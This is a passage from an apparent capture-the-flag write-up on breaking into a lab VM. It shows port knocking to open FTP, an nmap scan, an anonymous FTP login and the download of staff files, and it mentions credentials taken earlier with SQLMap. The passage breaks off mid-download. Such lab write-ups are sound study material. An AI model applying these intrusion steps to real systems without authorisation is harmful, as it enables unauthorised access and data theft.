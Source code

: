     This meant that in order to open port 21 (FTP), I have to send TCP SYN packets to port 1000 followed by port 2000 within 5 seconds, which can be achieved by using a [Port Knocking](https://wiki.archlinux.org/title/Port_knocking) tool. My preferred [Port Knocking](https://wiki.archlinux.org/title/Port_knocking) tool of choice is [KnockIt](https://github.com/eliemoutran/KnockIt). Using the command `knockit 192.168.233.135 1000 2000` to conduct [Port Knocking](https://wiki.archlinux.org/title/Port_knocking) & doing a [NMAP](https://github.com/nmap/nmap) right after gives the following output:

    ```
    Nmap scan report for potatos.potato-school.com (192.168.233.137)
    Host is up (0.00076s latency).
    Not shown: 997 filtered tcp ports (no-response)
    PORT    STATE SERVICE
    21/tcp  open  ftp
    80/tcp  open  http
    443/tcp open  https
    ```

    As port 21 (ftp) is open, the [Port Knocking](https://wiki.archlinux.org/title/Port_knocking) was a success.

19) Since the ftp port is open, I decided to try to access the Potato VM via the ftp port. Howevever, attempts to login via ftp with the student credentials obtained from the output of [SQLMap](https://github.com/sqlmapproject/sqlmap) was unsuccessful, I decided to find other ways to login via ftp. Searching online, I found out that it might be possible to log into the ftp server as an `anonymous` user, which I attempted to do so & gained access.

    ```
    ┌──(ctf)─(kali㉿kali)-[~]
    └─$ ftp 192.168.233.137
    Connected to 192.168.233.137.
    220 (vsFTPd 3.0.3)
    Name (192.168.233.137:kali): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> 
    ```

    Upon gaining access, as I know that there are 2 types of ftp connection modes, I decided to go with the passive mode & explore the files in the ftp server. Using the `ls` command, I can see that the `Drafts` directory is available. Accessing the `Drafts` directory & using the `ls` command, it showed that the following files were present in the `Drafts` directory: `Encrypted_Attachment.dat` & `staff_email_draft.txt`. Using the `get` command, I downloaded the files into my [Kali Linux](https://www.kali.org/) machine.

    ```
    ftp> passive
    Passive mode: off; fallback to active mode: off.
    ftp> cd Drafts
    250 Directory successfully changed.
    ftp> ls
    200 EPRT command successful. Consider using EPSV.
    150 Here comes the directory listing.
    -r-xr-xr-x    1 119      128            58 Nov 05 17:20 Encrypted_Attachment.dat
    -r-xr-xr-x    1 119      128           759 Nov 05 09:18 staff_email_draft.txt
    226 Directory send OK.
    ftp> get Encrypted_Attachment.dat
    local: Encrypted_Attachment.dat remote: Encrypted_Attachment.dat
    200 EPRT command successful. Consider using EPSV.
    150 Opening BINARY mode data connection for Encrypted_Attachment.dat (58 bytes).
    100% |**********************************************************|    58        2.78 KiB/s    00:00 ETA
    226 Transfer complete.
    58 bytes received in 00:00 (2.60 KiB/s)
    ftp> get staff_email_draft.txt
    local: staff_email_draft.txt remote: staff_email_draft.txt